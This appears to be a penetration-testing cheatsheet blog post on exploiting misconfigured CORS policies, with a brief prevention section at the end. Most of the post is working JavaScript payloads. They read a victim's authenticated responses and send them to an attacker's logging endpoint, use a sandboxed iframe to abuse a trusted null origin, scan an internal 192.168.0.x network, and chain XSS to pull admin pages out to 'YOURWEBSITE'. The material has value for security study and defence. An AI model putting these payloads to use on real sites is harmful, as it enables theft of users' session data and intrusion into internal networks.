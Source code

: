 ```yaml
---
title: "CORS attack"
subtitle: ""
date: 2020-03-04T15:58:26+08:00
lastmod: 2020-03-04T15:58:26+08:00
draft: false
author: "Hato0"
description: "CORS cheatsheet"

tags: ["web", "penetest", "cors"]
categories: ["Penetest - Web"]

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# Cross-origin resource sharing

Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain.  It can provide an attack vector to cross-domain based attacks, if a website's CORS policy is poorly configured and implemented. 

To check for the Access-Control-Allow-Origin value you can send a request including the following header:
`Origin: WEBSITE`

The presence of Access-Control-Allow-Credentials is a good indicator of potential CORS.

## Some examples

- Basic origin reflection

	On your website you can place a script looking like this one : 
	
	{{< highlight javascript "lineNos=false" >}}
	<script>  
	 var req = new XMLHttpRequest();  
	 req.onload = reqListener;  
	 req.open('get','FULL_URL_TO_TARGET',true);  
	 req.withCredentials = true;  
	 req.send();  

	 function reqListener() {  
	 location='/log?key='+this.responseText;  
	 };  
	</script>
    {{< /highlight >}}
	 
	 This script will fetch the FULL_URL_TO_TARGET page using the Access-Control-Allow-Credentials header. Then when the page will be loaded, it will take the page data  and send it back to you on your website.
	 
	 
- Trusted null origin

	Basicly this is the same as the previous one, just include the ifram with sandbox options:
	`sandbox="allow-scripts allow-top-navigation allow-forms"`

	{{< highlight javascript "lineNos=false" >}}
	<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>  
	 var req = new XMLHttpRequest ();  
	 req.onload = reqListener;  
	 req.open('get','FULL_URL_TO_TARGET',true);  
	 req.withCredentials = true;  
	 req.send();  

	 function reqListener() {  
	 location='YOUR_WEBSITE/log?key='+encodeURIComponent(this.responseText);  
	 };  
	</script>"></iframe>
	{{< /highlight >}}
	
	
- Internal network pivot attack

	This one is the trickier, it will follow these steps:
	
	1. Scan for endpoint in the internal network, it will fetch a XSS on the scanned page, your website log should include port and the corresponding IP.
	
		{{< highlight javascript "lineNos=false" >}}
		<script>
		var q = [], collaboratorURL = 'YOURWEBSITE';
		for(i=1;i<=255;i++){
		  q.push(
		  function(url){
			return function(wait){
			fetchUrl(url,wait);
			}
		  }('http://192.168.0.'+i+':8080'));
		}
		for(i=1;i<=20;i++){
		  if(q.length)q.shift()(i*100);
		}
		function fetchUrl(url, wait){
		  var controller = new AbortController(), signal = controller.signal;
		  fetch(url, {signal}).then(r=>r.text().then(text=>
			{
			location = collaboratorURL + '?IP='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
		  }
		  ))
		  .catch(e => {
		  if(q.length) {
			q.shift()(wait);
		  }
		  });
		  setTimeout(x=>{
		  controller.abort();
		  if(q.length) {
			q.shift()(wait);
		  }
		  }, wait);
		}
		</script>
		{{< /highlight >}}
		
		2. Then you will be able to go for XSS fetching, using information previously retrieve

		{{< highlight javascript "lineNos=false" >}}
		<script>  
		function xss(url, text, vector) {  
		 location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="(\[^"\]+)"/)\[1\];  
		}  

		function fetchUrl(url, collaboratorURL){  
		 fetch(url).then(r=>r.text().then(text=>  
		 {  
		 xss(url, text, '"><img src='+collaboratorURL+'?isXSS=1>');  
		 }  
		 ))  
		}  

		fetchUrl("http://IP_FOUND", "YOURWEBSITE");  
		</script>
		{{< /highlight >}}

		3. From the previous step, you will locate a potential XSS, if you find one it would be display in your website logs using `isXSS=1`. In this part we will go for the XSS exploit and retrieve the web page content.

		{{< highlight javascript "lineNos=false" >}}
		<script>  
		function xss(url, text, vector) {  
		 location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="(\[^"\]+)"/)\[1\];  
		}  
		function fetchUrl(url, collaboratorURL){  
		 fetch(url).then(r=>r.text().then(text=>  
		 {  
		 xss(url, text, '"><iframe src=/admin onload="new Image().src=\\''+collaboratorURL+'?code=\\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');  
		 }  
		 ))  
		}  

		fetchUrl("http://IP_FOUND", "YOURWEBSITE");    
		</script>
		{{< /highlight >}}
		
		4. Then you are free to do whatever you want, iframe injection, CSRF, ...
	
		
## How to prevent them 

CORS are only present due to misconfigurations, you can use these headers to configure it correctly (and also use your brain again).
- Access-Control-Allow-Origin: 
	- Allow content from listed websites
	- Avoid null value => can be exploit as we see above
	- Avoid local things as you don't protect your colleagues actions
